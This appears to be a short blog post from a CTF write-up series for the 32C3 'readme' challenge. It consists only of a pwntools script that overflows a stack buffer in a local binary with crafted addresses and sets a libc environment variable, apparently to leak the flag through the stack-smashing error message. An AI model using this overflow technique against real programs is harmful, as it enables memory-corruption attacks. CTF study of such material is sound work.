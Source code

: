 ```yaml
---
layout: post
title: "32c3_readme"
date: 2016-02-06 21:38:23 +0800
comments: true
categories: 
---
```

'''python
from pwn import *
p = process('./readme.bin')
p.recvuntil('name?')
p.sendline('a'*(0x7ffc155a87c8 - 0x7ffc155a85b0) + p64(0x400d20) + p64(0) + p64(0x600d20))
p.sendline('LIBC_FATAL_STDERR_=1')
p.interactive()
'''
